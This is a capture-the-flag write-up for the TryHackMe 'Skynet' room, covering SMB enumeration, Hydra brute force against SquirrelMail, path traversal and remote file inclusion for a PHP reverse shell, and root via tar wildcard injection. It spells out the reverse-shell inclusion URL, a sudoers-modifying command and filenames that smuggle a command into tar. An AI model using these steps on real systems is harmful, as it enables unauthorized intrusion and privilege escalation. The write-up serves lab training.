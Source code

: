 # CTF_skynet
this is Poc writeup CTF skynet from TryHackMe.com, link https://tryhackme.com/room/skynet

## tools
1. nmap (looking port that open)
2. dirb (brute listing directory)
3. smbmap (mapping smb server)
4. smbclient (log in smb server)
5. burp (community edition)
6. nc or Ncat (listener reverse shell)
7. python3 (for http.server)
8. nano (text editor)
9. hydra (brute force by wordlist from login form)
10. gobuster (brute listing director)
11. searchsploit (search exploit that match with targeted system)

## Let's Rock n Roll
1. scanning port that opened using nmap :

   ![nmap](/submit/1.png "nmap")

2. brute listing directory using dirb :

   ![dirb](/submit/2.png "dirb")

3. while waiting dirb processing, let's try mapping the smbserver using smb map, here's the result :

   ![smbmap](/submit/4.png "smbmap")

4. the anonymous client is still on, now let's try login using anonymous user using smbclient:

   ![smbclient](/submit/5.png "smbclient")

5. after dirb finished, we got interesting directory. there is /squirrelmail. open browser that access hhtp://**your machine**/squirrelmail :
  
   ![webview](/submit/6.png "webview")
  
6. back to the smbclient, then check the directory using ls command. after that we've got attention.txt and file log1.txt,log2.txt,log3.txt on directory logs. download all the files using get command :
  
   ![smbclient](/submit/7.png "smbclient")

7. check all of files using cat. information that we've got, there is maintenance service so all credential will be reseted. from attention.txt there is username information taht we can use for brute force. information that we got from log2.txt is all password for first login before update password :
  
   ![smbclient](/submit/8.png "smbclient")
  
8. use burp to intercept and get url GET information that we can combined using Hydra for brute force. fill the form username and password than push button login. than we got the GET url :
  
   ![burp](/submit/10.png "burp")
  
   ![burp](/submit/12.png "burp")
  
   ![burp](/submit/13.png "burp")
  
9. information that we got is, GET method, url http://**your machine**/squirrelmail/src/redirect.php, and the respon output that we can use as parameter that login was failed. then use hydra with username milesdyson and password wordlist (**log2.txt**), like the command bellow :

   ![hydra](/submit/14.png "hydra")
  
10. after we got information username and password, login into the squirrelmail and access the email from synet@skynet with subject Samba Password Reset. use the password credential for login as milesdyson with smbclient :
 
   ![webview](/submit/15.png "webview")
  
   ![webview](/submit/16.png "webview")
  
   ![sambaclient](/submit/17.png "sambaclient")
  
11. list the item on the directory. there is **notes** directory, access it. than download the important.txt using get command :

   ![sambaclient](/submit/19.png "sambaclient")
   
12. now, we got information that machine use CMS. the CMS was in directory at the image bellow. just put the directory affter your machine target ip like this http://**machine target**/**the directory** using browser :

![cat](/submit/21.png "cat")

![webview](/submit/22.png "webview")

13. use gobuster for brute the directory. in this case i'm using dirb wordlist and got the CMS pannel on http://**your target**/**the directory**/Administrator/ :

![gobuster](/submit/23.png "gobuster")

![webview](/submit/24.png "webview")

14. then use searchsploit to get the information. there is Local/Remote vuln on file alertConfigField.php. in this case, just add ../../../../../../etc/passwd on url browser and the /etc/passwd information show off :

![searchsploit](/submit/25.png "searchsploit")

![cat](/submit/26.png "cat")

![webview](/submit/27.png "webview")

15. creat reverse shell in PHP than run the simple http server using python3 for upload the PHP reverse shell script to the target machine afterthat use ncat for listener. then open the browser and type http://**your target**/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=http://**local machine**/reverse.php, now we got the shell :

![nano](/submit/28.png "nano")

![ncat](/submit/29.png "ncat")

![reverseShell](/submit/30.png "reverseShell")

![reverseShell](/submit/31.png "reverseShell")

16. go into desktop directory milesdyson and there is user.txt, use cat for show the output :

![reverseShell](/submit/32.png "reverseShell")

17. check crontab file to get information, which service runing by **root**. there's backup.sh that will be run on /var/www/html/ approximately every one minutes. copy backup.sh into /var/www/html then run the several comment bellow :
- **echo 'echo "www-data ALL=(root) NOPASSWD: ALL" >> /etc/sudoers' > sudo.sh**
- **touch "/var/www/html/--checkpoint-action=exec=sh sudo.sh"**
- **touch "/var/www/html/--checkpoint=1"**

![reverseShell](/submit/36.png "reverseShell")

![previlegeescall](/submit/37.png "previlegeescall")

![previlegeescall](/submit/38.png "previlegeescall")

18. BOOM we got the root access. now go into **/root** and cat the root.txt

![previlegeescall](/submit/39.png "previlegeescall")

73 good luck

